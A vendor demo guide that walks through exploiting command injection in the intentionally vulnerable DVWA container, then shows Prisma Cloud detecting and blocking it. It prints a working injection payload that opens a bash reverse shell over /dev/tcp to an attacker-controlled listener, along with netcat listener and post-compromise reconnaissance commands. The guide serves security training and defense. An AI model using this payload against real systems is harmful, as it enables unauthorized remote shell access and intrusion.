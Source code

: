 ## Command Injection Demo with DVWA App

written by Kyle Butler
last edited by John Chavanne

Requirements:
* Prisma Cloud Compute edition deployed; see Deployment Guide here: [Minikube Prisma Cloud Compute Partner VM Lab Deployment Instructions](Prisma_Cloud_Compute_Minikube_Lab.md)
* Container defender deployed in environment where you'll be runnning the DVWA app. 
* [Docker Installed](https://www.digitalocean.com/community/tutorials/how-to-install-and-use-docker-on-ubuntu-20-04)
* Netcat installed (comes with ubuntu and many other linux distros) for macOS `brew install netcat`

### Intital Set-up

* Retrieve the DVWA webapp `docker pull vulnerables/web-dvwa`
* Tag the image you pull down `docker tag vulnerables/web-dvwa:latest dvwa:1`
* Create bridged docker network `docker network create --driver bridge dvwa-net`
* Run the container and map port 80 on the host machine to port 80 on the container. `docker run -dit -p 80:80 --name dvwa --network dvwa-net dvwa:1`
* Explain as you're running this in terminal that the important part of this command to understand is that `-p 80:80` maps the host machines port to the container port. This is important to highlight during your demonstration, because people often misunderstand how networking within a container works. We'll demonstrate how we can reverse shell into the container using a different port, from anywhere. 
* Open up a web browser and go to the dvwa app. `http://localhost/setup.php`
* reset the database then login in. username: `admin` password: `password`

### Run the exploit

* On the left hand side of the DVWA menu go to the command injection tab. 
* Explain what command injection is in this scenario. Ultimately, command injection is an attack where a malicious actor attempts to manipulate the user input so that code is executed on the shell of the container/server in a different way than the developer intended. 
* In the DVWA app, under the command injection section the developer's intention is for function to run a ping command 4 times on the ip address submitted by the user. 

### (Option 1) Locally from vm to laptop terminal ---easiest/recommended way

* To run the attack, open a terminal window on your local (not the VM) machine. Explain this is the attackers terminal. In terminal enter (linux devices) `nc -lvp 5678` (macOS) `netcat -lvp 5678`. This will open a listening port on port 5678. Nothing too exiting to see yet. 
* Then retrieve the Internal IP address of the local machine.
* Go back to the DVWA app and enter this command on the command injection screen. `127.0.0.1 & bash -c 'bash -i >& /dev/tcp/<YOUR_INTERNAL_IP_ADDRESS>/5678 0>&1'`
* Check the terminal window where you entered `nc -lvp 5678` you should now have a reverse shell into the container. 

### (Option 2) Externally from vm to External EC2 Instance

* Create a ubuntu EC2 instance and assign it a public IP address. 
* On the EC2 dashboard page in the AWS Console write down the public IP address assigned to the instance.
* Edit the security group to allow inbound tcp communication over port 5678.
* SSH to EC2 
* `sudo nano /etc/hosts` add `0.0.0.0 localhost` to the top line of the hosts file. `ctl + x` then `y` then `enter`
* In terminal type `nc -l -p 5678`
* Go back to the DVWA app and enter this command on the command injection screen. `127.0.0.1 & bash -c 'bash -i >& /dev/tcp/<YOUR_EC2_PUBLIC_IP_ADDRESS>/5678 0>&1'`
* Check the terminal window where you entered `nc -l -p 5678` you should now have a reverse shell into the container. 

### Show the implications of an attack like this

* Now you can demonstrate to your audience the difference between a vm and a container. 
* Because a container shares the same kernel as the host device it's running on an attacker can gain information which can used to gain further access into the network. 
* Run the command `whoami` to show that you're running as `www-app`. 
* `cd` through the web app and `ls` as you step through the directories to show the ability to perform directory traversal and see all the content of the web app. 
* Once you're at the root directory, run the following commands to reveal what information is being fed to the shared kernel. 
* `uname -a` provides the processor architecture, the system hostname and the version of the kernel running on the host machine. If you're able to determine that it's an vulnerable/unpatched kernel this information can be used to gain further access and information. 
* `cat /proc/cmdline` shows the kernel parameters passed during boot
* `cat /proc/cpuinfo` shows the type of processor the host machine is running, including the amount of CPUs present
* `cat /proc/version` provides information which pertains to the version of Linux kernel used in the host machine machines distro. 
* Link to linux kernel vulnerabilities from the CVE database [here](https://www.cvedetails.com/vulnerability-list/vendor_id-33/product_id-47/cvssscoremin-7/cvssscoremax-7.99/Linux-Linux-Kernel.html)

### See how Prisma Cloud Defenders responded to the incident. 

* Log into the Prisma Cloud Compute console
* Go to Monitor > Events > container audits
* There should be an incident reported as a reverse shell. 
* Click the event and then click forensic icon on the incident. 
* Show how the incident is tracked in near real time. 
* Scroll through the event details and show the commands you ran earlier with your reverse shell. 
* Point out that the IP Address of attacker was logged. This information could be very useful for incident response using Prisma Cloud Enterprise edition. (RQL Network from.....)


### Enable the WAAS to block this behavior

In the Prisma Compute Console:

* Step 1:(Enterprise Edition ONLY) Go to Prisma Console > Compute > Defend > WAAS
  * Step 1a:(Compute Edition) Go to Defend > WAAS
* Step 2: Click ‘Add Rule’
* Step 3: Rule Name: Command Injection Defense
* Step 4: Then click scope
* Step 5: Check boxes of all images that have dvwa in them.
  * Step 5a: If there are none, click 'Add Collection', type in a name, type in 'dvwa' in the image field, select the image(s), and click 'Save'
  * Step 5b: Ensure you have the 'dvwa' boxes checked and click 'Select collections'
* Step 6: Click ‘Add New App’
* Step 7: On the next pop-up click the ‘+ Add Endpoint’ 
* Step 8: Enter 80 for App port (internal port) then hit ‘Create’ 
* Step 9: Click the ‘App Firewall' tab and under OS Command Injection set it to Prevent. 
* Step 10: Click ‘Save’


### Attempt attack again. 

* Log out of the dvwa app and close your reverse shell session by typing `exit` in the "attackers" shell. 
* Attempt to do the attack again on the web app and you should see a blocked warning. Note that the IP address of the attacker is logged. 
* The event can be viewed under Monitor > Events > WAAS for containers.
